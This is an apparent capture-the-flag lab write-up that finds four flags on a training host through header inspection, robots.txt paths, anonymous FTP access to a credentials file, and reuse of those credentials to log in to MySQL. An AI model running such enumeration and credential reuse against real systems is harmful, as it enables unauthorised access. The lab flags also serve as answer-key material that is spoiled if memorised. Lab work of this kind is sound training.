

## Tasks



---
## Flag 1

> _The server proudly announces its identity in every response. Look closely; you might find something unusual._

```
curl -I http://target.ine.local
```

```
HTTP/1.1 200 OK
Server: Werkzeug/3.0.6 Python/3.10.12
Content-Type: text/html; charset=utf-8
Content-Length: 2557
Server: FLAG1_0634081010c6421bacf5411f735ddf10
Connection: close
```

The flag is embedded in a duplicate `Server` response header, visible when inspecting the raw HTTP headers.

---
## Flag 2

> _The gatekeeper instructions often reveal what should remain unseen. Don't forget to read between the lines._

```
nmap -sCV target.ine.local
```

Relevant nmap output:

```
80/tcp open  http  Werkzeug/3.0.6 Python/3.10.12
| http-robots.txt: 3 disallowed entries
|_/photos /secret-info/ /data/
```

```
curl http://target.ine.local/robots.txt
```

```
User-agent: googlebot
Disallow: /photos

User-agent: *
Disallow: /secret-info/
Disallow: /data/
```

`/secret-info/` is listed as disallowed, making it a prime target. Fetching the flag directly:

```
curl http://target.ine.local/secret-info/flag.txt
```

```
FLAG2_16c7aaf5b6fc4f82ace6976dd61e45aa
```

---
## Flag 3

> _Anonymous access sometimes leads to forgotten treasures. Connect and explore the directory; you might stumble upon something valuable._

The Nmap scan reveals anonymous FTP login is enabled:

```
21/tcp open  ftp  vsftpd 3.0.5
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| -rw-r--r--  1 0  0  22 Oct 28  2024 creds.txt
|_-rw-r--r--  1 0  0  39 May 29 07:43 flag.txt
```

Connecting anonymously and retrieving the flag:

```
ftp -a target.ine.local
```

```
230 Login successful.

ftp> ls
-rw-r--r--  1 0  0  22 Oct 28  2024 creds.txt
-rw-r--r--  1 0  0  39 May 29 07:43 flag.txt

ftp> more flag.txt
FLAG3_337074f3a7f547d19f65cf2ed2ccacb4
```

---
## Flag 4

> _A well-named database can be quite revealing. Peek at the configurations to discover the hidden treasure._

The Nmap scan shows MySQL is exposed on port 3306:

```
3306/tcp open  mysql  MySQL 8.0.39-0ubuntu0.22.04.1
```

Credentials recovered from `creds.txt` during Flag 3 (`db_admin:password@123`) are used to connect to the database:

```
mysql -u db_admin -ppassword@123 -h target.ine.local
```

```
MySQL [(none)]> show databases;
+----------------------------------------+
| Database                               |
+----------------------------------------+
| FLAG4_bddb328beb8743388ef5eaa0594ea191 |
| information_schema                     |
| mysql                                  |
| performance_schema                     |
| sys                                    |
+----------------------------------------+
```

The flag is the name of the database itself.

---
## Summary

|#|Technique|Flag|
|---|---|---|
|1|Duplicate HTTP response header|`FLAG1_0634081010c6421bacf5411f735ddf10`|
|2|`robots.txt` + path enumeration|`FLAG2_16c7aaf5b6fc4f82ace6976dd61e45aa`|
|3|Anonymous FTP login|`FLAG3_337074f3a7f547d19f65cf2ed2ccacb4`|
|4|Credential reuse + MySQL enum|`FLAG4_bddb328beb8743388ef5eaa0594ea191`|